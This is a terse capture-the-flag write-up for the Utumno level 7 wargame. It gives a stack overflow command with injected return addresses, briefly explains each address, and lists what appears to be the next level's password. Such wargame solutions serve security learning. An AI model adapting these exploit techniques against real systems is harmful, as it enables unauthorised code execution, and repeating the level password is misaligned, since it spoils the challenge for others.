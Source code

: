 Maybe: 140

```
/utumno/utumno7 aaaa$(python -c "print '\x4e\xdf\xff\xff'")caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaab$(python -c 'print "\xcc\xd4\xff\xff"')
```

The first one is to control eip
The second one is to bypass a copy from eax to ebp-0x4, which otherwise could fail
and halt the program.

utumno8:jaeyeetiav
